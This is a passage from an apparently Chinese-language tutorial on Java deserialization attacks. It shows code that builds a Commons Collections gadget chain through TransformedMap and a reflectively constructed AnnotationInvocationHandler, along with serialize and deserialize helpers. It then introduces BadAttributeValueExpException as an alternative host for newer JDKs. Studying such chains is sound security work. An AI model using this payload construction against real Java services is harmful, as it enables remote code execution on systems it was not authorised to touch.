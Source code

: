  ```java
          Transformer transformer=new ChainedTransformer(transformers);

          //将恶意代码包装到目标的 sun.reflect.annotation.AnnotationInvocationHandler 中
          /**
           * 构建一个 transformedMap ,
           * transformedMap的作用是包装一个Map对象,使得每一次在该Map中的Entry进行setValue的时候
           * 都会触发 transformer的transform()方法
           * */
          Map transformedMap=TransformedMap.decorate(new HashedMap(),null,transformer);
          //由于AnnotationInvocationHandler无法直接访问,因此使用反射的方式来构建对象
          final Constructor<?> constructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
          constructor.setAccessible(true);
          return constructor.newInstance(Override.class, transformedMap);
      }

      public byte[] serialize(final Object obj) throws IOException {
          ByteArrayOutputStream out = new ByteArrayOutputStream();
          ObjectOutputStream objOut = new ObjectOutputStream(out);
          objOut.writeObject(obj);
          return out.toByteArray();
      }

      public Object deserialize(final byte[] serialized) throws IOException, ClassNotFoundException {
          ByteArrayInputStream in = new ByteArrayInputStream(serialized);
          ObjectInputStream objIn = new ObjectInputStream(in);
          return objIn.readObject();
      }
  }
  ```

* #### 另一个可以使用的宿主 BadAttributeValueExpException

  由于在本文写作的当下,大部分的 Jdk 版本已经高于 8u66,因此 AnnotationInvocationHandler 类已经去除了 setValue 的方法,而导致无法使用，因此大家可以采用 BadAttributeValueExpException 进行实验

  ```java
  public class BadAttributeValueExpException extends Exception   {

      /* Serial version */
      private static final long serialVersionUID = -3105272988410493376L;

      /**
       * @serial A string representation of the attribute that originated this exception.
       * for example, the string value can be the return of {@code attribute.toString()}
       */
      private Object val;

      /**
       * Constructs a BadAttributeValueExpException using the specified Object to
       * create the toString() value.
       *
       * @param val the inappropriate value.
       */
      public BadAttributeValueExpException (Object val) {
          this.val = val == null ? null : val.toString();
      }

      /**
       * Returns the string representing the object.
       */
      public String toString()  {
          return "BadAttributeValueException: " + val;
  ```